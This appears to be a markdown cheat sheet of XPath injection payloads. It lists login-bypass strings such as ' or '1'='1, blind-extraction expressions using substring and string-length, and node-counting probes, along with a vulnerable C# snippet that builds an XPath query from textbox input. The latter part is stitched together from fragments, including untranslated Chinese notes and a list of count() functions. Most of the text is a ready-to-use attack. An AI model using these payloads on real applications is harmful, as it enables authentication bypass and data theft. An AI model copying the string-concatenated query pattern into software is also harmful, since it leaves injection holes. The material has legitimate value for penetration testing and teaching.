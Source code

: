 # XPATH injection
XPath Injection is an attack technique used to exploit applications that construct XPath (XML Path Language) queries from user-supplied input to query or navigate XML documents.

## Exploitation
Similar to SQL : "string(//user[name/text()='" +vuln_var1+ "' and password/text()=’" +vuln_var1+ "']/account/text())"
```
' or '1'='1
' or ''='
x' or 1=1 or 'x'='y
/
//
//*
*/*
@*
count(/child::node())
x' or name()='username' or 'x'='y
' and count(/*)=1 and '1'='1
' and count(/@*)=1 and '1'='1
' and count(/comment())=1 and '1'='1
```

## Blind Exploitation
```
1. Size of a string
and string-length(account)=SIZE_INT

2. Extract a character
substring(//user[userid=5]/username,2,1)=CHAR_HERE
substring(//user[userid=5]/username,2,1)=codepoints-to-string(INT_ORD_CHAR_HERE)
```


## Thanks to
* [OWASP XPATH Injection](https://www.owasp.org/index.php/Testing_for_XPath_Injection_(OTG-INPVAL-010))
* [XPATH Blind Explorer](http://code.google.com/p/xpath-blind-explorer/)

expr = nav.Compile("string(//user[name/text()='"+TextBox1.Text+"' and password/text()='"+TextBox2.Text+"']/account/text())");

NoSuchUser'] | P | //user[name/text()='NoSuchUser

这将形成以下XPath查询:

string(//user[name/text()='Foobar'] | p | //user[name/text()='NoSuchUser' and password/text()='NoSuchPass']/account/text())

元素的属性数量是
count(path/attribute::*)
第N个属性名称是
(path/attribute::*[position()=N])

count(path/child::node()) - the count of all the nodes for the given path.
count(path/child::text()) - number of text fields children (up to 1...).
count(path/child::comment()) - number of comment nodes.
count(path/child::*) - the number of element children.
count(path/child::processing-instruction()) - the number of PI nodes.